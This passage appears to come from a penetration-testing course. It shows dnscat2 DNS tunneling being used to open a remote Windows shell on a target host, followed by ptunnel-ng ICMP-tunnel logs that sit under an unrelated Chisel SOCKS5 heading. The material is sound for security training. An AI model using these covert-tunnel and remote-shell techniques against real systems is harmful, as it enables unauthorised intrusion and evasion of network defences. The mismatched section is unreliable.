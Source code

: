 We can list the options we have with dnscat2 by entering `?` at the prompt.

#### Listing dnscat2 Options

```shell
dnscat2> ?

Here is a list of commands (use -h on any of them for additional help):
* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows

```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell.

#### Interacting with the Established Session

```shell
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>

```


# SOCKS5 Tunneling with Chisel


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%